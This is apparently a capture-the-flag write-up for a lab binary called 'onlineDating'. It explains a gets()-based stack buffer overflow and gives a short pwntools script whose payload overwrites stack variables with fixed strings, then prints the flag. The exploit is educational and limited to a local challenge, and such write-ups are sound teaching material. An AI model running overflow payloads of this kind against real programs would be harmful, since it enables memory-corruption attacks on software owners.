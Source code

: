 # onlineDate

### 📍 Description
What about updating your profile information?

### 📄 Rules
- Do not patch this binary.
- Do not modify or delete the flag.txt file.
- You MUST solve the challenge by providing valid inputs.
- You CANNOT just jump with the debugger to any function that directly prints the flag.
- If you think you're breaking these rules with your solution, please ask the teachers.

## 🔑 Solution
We have a trivial buffer overflow vulnerability, we just need to overwrite some stack variables with the correct values.
The input length isn't checked due to the use of `gets()` for handling user input, the target buffer is 56 bytes long, its content aren't checked against anything so we can just fill it with `A`s.
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables position in the stack).

```python
from pwn import *

payload = b'A'* 56 + b'Gerard_Pique' + b'Clara_C.' + b'TwingoOo' + b'CasioOo!'

# r = gdb.debug('./onlineDating')
r = process('./onlineDating')
r.sendlineafter(b'Please tell us how to update it (max 50 char):', payload)
r.interactive()
```

### 🚩 Flag
```plain
SPRITZ{Cr4zy_DuD3}
```